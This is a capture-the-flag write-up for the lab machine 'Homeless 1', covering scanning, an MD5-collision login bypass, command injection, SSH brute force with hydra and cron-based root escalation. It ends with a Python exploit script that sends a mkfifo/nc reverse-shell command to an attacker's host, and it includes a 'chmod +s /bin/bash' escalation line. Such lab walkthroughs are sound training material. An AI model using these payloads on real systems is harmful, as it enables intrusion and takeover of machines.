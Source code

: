 # Homeless 1

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-27 19:13 WEST
Nmap scan report for 10.0.2.34
Host is up (0.00051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:2c:a5:57:c7:eb:82:11:4e:bc:10:45:2f:68:58:f0 (RSA)
|   256 4d:44:7b:95:ce:9f:86:e2:c8:b4:1c:53:85:0d:90:4a (ECDSA)
|_  256 a6:d8:0a:4a:ca:d9:77:13:14:a0:36:54:94:8e:6f:2a (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_Use Brain with Google
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Transitive by TEMPLATED
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
````

## Port 80
Static website with an interesting /robots.txt

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/060285d5-6feb-486f-9fc3-20b1e1ff455d)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/00da0d9b-706b-4978-a8c5-8903da308f54)

Hmm... let's carefully read the source code then

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/80bdce34-80a7-482b-ad45-155bc6b05542)


Cross-site scripting through the user agent? But it's reflected. Maybe I have to chain it with something else? Smuggling? Caching?

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/67fcbc8b-d3a5-479e-8021-8975d8f14cfa)


Nothing... So I went and opened every single file on the webserver and found something a bit different. The favicon is kinda weird

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/ad96ff53-eeb3-4dc1-80ab-e91f4638fe56)

I reverse image searched this and found some references to Cyberdog: `https://wiki.preterhuman.net/Cyberdog#Building-Custom-Documents`

Well, it's very CTFy, but changing the User-Agent to "Cyberdog" did the trick. Let's explore myuploader_priv

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e5d45eb2-8189-4fa3-8e83-6099e70287c4)


![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a6283049-6da5-4ad6-bf11-0f4446dc5993)

I quickly found the directory ``http://10.0.2.34/myuploader_priv/files/`` after a few seconds of directory busting. So we might have to upload a shell now.
Apparently I can only write around 7/8 characters before getting a "File too large" error message.

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a2243b64-4439-48bb-9917-b95962ff7dbd)

This was the shortest payload I could come up with, but It's harmless

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e82cdac3-aa28-43df-b25f-ad5a19e8115c)

Calling ls is useful tho

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/99be03fc-dc2d-484e-bfe8-3fb3951e4aea)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/db0dd563-1458-449a-befc-2068fbf8ac01)


That's another page, okay


## /d5fa314e8577e3a7b8534a014b4dcb221de823ad

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/6a2cb219-996e-47fb-ac70-59b9d54f5eac)

See that 'need hint?' link? It downloads the source code. Time for a code review challenge!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f8761d51-b541-4bee-943e-40830fd5a4ba)

So, the md5sum of each of the fields must be the same, but the corresponding plaintext must not.
Magic hashes maybe? It can't be, it's a strict comparison

I turned to this guy's research and found his software. Lots of info in his repo and website, I won't go over it. It's a whole different topic
``https://github.com/cr-marcstevens/hashclash``

But anyway, I got the 3 different files with the same md5sum

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/66905a71-4a7d-4ed1-aa33-5d22c26f18e3)


The curl command was pretty tricky, but it finally worked

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/bf3d81f0-641a-4884-9719-20ae89893719)

I changed the cookie and browsed to /d5fa314e8577e3a7b8534a014b4dcb221de823ad/admin.php

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/539b0716-69ad-4a8d-acfa-84e4ba5eca37)


## Reverse Shell

A typical reverse shell payload worked wonders

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/3f91c39b-2640-4c2b-b139-a3d2ac7e3168)


## Privilege Escalation

The privilege escalation probably has something to do with python

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f8d89b1a-cf5f-4c0b-b166-ac5069cfe982)


A few minutes of Pspy confirms this

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/79ac50d3-0e63-46c7-a8d4-4970f919cd6a)

Checking out this homeless.py file

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/09ac2e2f-4e1a-420a-bd75-4a81e8a1b179)

Can't do anything with this user. After a lot of time thinking, I remember the vulnhub page mentioned that we should use rock you and the password would start with 'sec'.
I used the following command the extract all the likely passwords from rock you
``cat rockyou.txt | grep "^sec" > /home/kali/Desktop/sec_rockyou``

Then ran hydra against the SSH service with the username 'downfall'

``hydra -l downfall -P sec_rockyou 10.0.2.34 ssh -t 10 -v -I``

And I finally found something

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/ee737194-6a57-4077-8dec-fb8a4f6964ab)

Many ways to do this, but basically just edit the homeless.py file. I delted it and created a new one with the following contents

````
#!/bin/bash
chmod +s /bin/bash
````

Since the cron job is basically just running it ``./homeless.py``, it can be a bash script

Rooted! A bit CTFy, slightly frustrating, but still pretty cool

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/3b9838b9-812f-4dec-ac56-b78c90cf307a)


Hello! I'm back a few weeks later. Here's the one-click exploit

````
import sys, requests, urllib, socket, time, threading, re

def main():
	session = requests.Session()
	#Login to the admin panel

	url = server + '/d5fa314e8577e3a7b8534a014b4dcb221de823ad/'
	headers = {"User-Agent": "curl/8.5.0", "Accept": "*/*", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close"}
	# This sends the 3  files with the same md5 hash. Requires that you have the 3 files already created (f1, f2 and f3)
	with open('f1', 'rb') as f1:
		username = urllib.parse.quote(f1.read())
	with open('f2', 'rb') as f2:
                password = urllib.parse.quote(f2.read())
	with open('f3', 'rb') as f3:
                code = urllib.parse.quote(f3.read())

	data = "username={}&password={}&code={}&login=Login".format(username, password, code)
	r = session.post(url, headers=headers, data=data)

	if "Well Done" in r.text:
		print("[+] Logged in successfully")

	# RCE prep
	url = url + 'admin.php'
	data1 = {"command": "uname -a; id", "submit": "Submit Query"}
	data2 = {"command": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f".format(attacker, port), "submit": "Submit Query"}

	# Launch RCE
	r = session.post(url, data=data1)
	# Print "flag" first
	print(re.findall(r"<pre>(.*?)</pred>", r.text, re.DOTALL)[0])
	print("Don't forget to open the listener on port {}".format(port))
	session.post(url, data=data2)

if __name__ == '__main__':
        try:
                server = sys.argv[1].strip()
                attacker = sys.argv[2].strip()
                port = sys.argv[3].strip()
        except:
                print("[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0])
                sys.exit()
        main()
````

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/480798be-1bfa-4c24-a622-c00d46ed306b)







